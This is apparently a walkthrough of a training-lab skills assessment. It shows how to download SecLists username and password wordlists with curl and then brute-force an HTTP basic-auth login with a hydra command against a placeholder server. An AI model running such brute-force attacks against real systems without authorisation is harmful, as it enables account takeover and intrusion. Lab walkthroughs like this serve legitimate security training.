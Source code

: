 # Skills Assessment Part 1

### What is the password for the basic auth login?

**Step 1** - Download the wordlists:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt

  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Brute-force the login basic authentication:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT      
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

**Step 1** - Use the founded credentials on the login form:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
